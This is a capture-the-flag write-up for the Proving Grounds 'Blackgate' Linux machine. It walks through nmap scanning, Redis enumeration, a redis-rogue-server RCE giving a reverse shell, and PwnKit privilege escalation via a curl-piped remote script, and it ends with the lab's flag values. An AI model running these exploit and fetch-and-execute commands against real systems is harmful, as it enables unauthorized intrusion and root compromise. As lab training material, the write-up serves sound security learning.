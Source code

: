 ```yaml
---
Date: 2024-10-14
Platform: PG-Practice
Category: Linux
Difficulty: Hard
Status: In progress
IP: 192.168.243.176
Writeup: https://medium.com/@gleasonbrian/offsec-proving-grounds-blackgate-writeup-49920d4188de
---
```

# Blackgate
This is the first of the "Hard" machines I've tackled, so I'd been worried it may have been a major step up from what I'd been doing previously. Surprisingly though, this was very much a case of googling and learning about a service I'd never heard of (Redis), connecting to it to test a few commands, and then finding the version I was connected to had a well known RCE exploit and using it to achieve initial access!

Privilege escalation proved to be a bit more of a minefield though, mostly because I fixated on the fact the user had "run as root with no password" privileges for the same service I'd just abused to gain initial access - my first instinct was to try to learn more about Redis and potentially abuse the sudo privileges to achieve `root` access. 

In the end I ran `linpeas.sh` and identified that the target machine was vulnerable to `PwnKit`. Generally I've been ignoring the vulnerabilities `Linpeas.sh` recommends because they're often low-probability kernel exploits and are more effort to test than searching more something more obvious. In this case though, the PwnKit exploit I found is a super-simple one-liner, so I just ran it and got `root`!

The lesson here is to use what Linpeas is telling me, and not to be afraid of trying a kernel exploit if there's not a more obvious way to privilege escalate to root.

# Resolution summary
- Ran Nmap to identify ports `22` & `6379`
- Identified port `6379` as being associated with `redis`
- Researched `redis`, connected with netcat, and enumerated
- Identified `redis 4.0.14` and found RCE exploit
- Ran exploit and achieved reverse shell
- Enumerated target host & identified PwnKit vulnerability
- Ran exploit command, achieved `root` and printed `proof.txt`
## Improved skills
- Redis access and exploitation
- Privilege escalation with PwnKit vulnerability
## Used tools
- nmap
- python
- redis

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -T5 192.168.243.176 -v
sudo nmap -p 22,6379 -A 192.168.243.176 -v -oN Blackgate.nmap
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:21:14:3e:23:e5:13:40:20:05:f9:79:e0:82:0b:09 (RSA)
|   256 b9:8d:bd:90:55:7c:84:cc:a0:7f:a8:b4:d3:55:06:a7 (ECDSA)
|_  256 07:07:29:7a:4c:7c:f2:b0:1f:3c:3f:2b:a1:56:9e:0a (ED25519)
6379/tcp open  redis   Redis key-value store 4.0.14
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 38.448 days (since Sun Sep  8 09:17:53 2024)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.3p1)
No enumeration conducted
## Port 80 - 6379 (Redis 4.0.14)
- Identified `Redis 4.0.14` from NMap scan, and attempted to connect with `nc -vn 192.168.243.176 6379`
![[Pasted image 20241016210705.png]]
- Enumerated `redis` with command `INFO`
![[Pasted image 20241016210758.png]]
- Enumerated `redis` with command `client list`
![[Pasted image 20241016211014.png]]
- Enumerated `redis` with command `CONFIG GET *` and identified `dump.rdb`
![[Pasted image 20241016211113.png]]
---
# Exploitation
- Identified `redis 4.0.14` is vulnerable to [CVE-2022-0543](https://nvd.nist.gov/vuln/detail/CVE-2022-0543)
- Identified Redis(<=5.05) RCE exploit from `https://github.com/n0b0dyCN/redis-rogue-server`
- Ran `./redis-rogue-server.py --rhost 192.168.243.176 --lhost 192.168.45.205` with command for reverse shell to port `4444`
![[Pasted image 20241016213143.png]]
- Caught reverse shell with netcat listener on port `4444` with user `prudence`
![[Pasted image 20241016213258.png]]

---
# Privilege Escalation
## Local Enumeration
 - Ran `cat /home/prudence/local.txt` and printed local flag `704c046724f3d52f31c9567446105364`
 ![[Pasted image 20241016213517.png]]
- Ran `cat /home/prudence/notes.txt` and identified `protected mode` not turned on
![[Pasted image 20241016213959.png]]
- Ran `cat /etc/passwd` to identify any other users
![[Pasted image 20241016213707.png]]
- Ran `sudo -l` to check `sudo` privileges and identified `prudence` can run `/usr/local/bin/redis-status` without a password
![[Pasted image 20241016213841.png]]
- Ran `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` to download & run `linpeas.sh` 
![[Pasted image 20241016221127.png]]
- Identified potential vulnerabilities for privilege escalation
![[Pasted image 20241016220933.png]]
- script crashed at `Analyzing Redis Files`
![[Pasted image 20241016215416.png]]
- Checked for `redis.conf` and ran `grep -i pass /etc/redis/redis.conf` to check for passwords
![[Pasted image 20241016220223.png]]
- Ran `sudo /usr/local/bin/redis-status` and identified `redis-service` requires authorization key
![[Pasted image 20241016220419.png]]
## Privilege Escalation vector
- Identified target is potentially vulnerable to CVE-2021-4034 (PwnKit) and found exploit at `https://github.com/ly4k/PwnKit/tree/main`
- Ran `sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"` on target and achieved `root` access
![[Pasted image 20241016221513.png]]
- Ran `cat /root/proof.txt` to print `deefd9189289f94bf366e55ae58fdfd3`
![[Pasted image 20241016221614.png]]
---
# Trophy & Loot
`local.txt` = `704c046724f3d52f31c9567446105364`
`root.txt` = `deefd9189289f94bf366e55ae58fdfd3`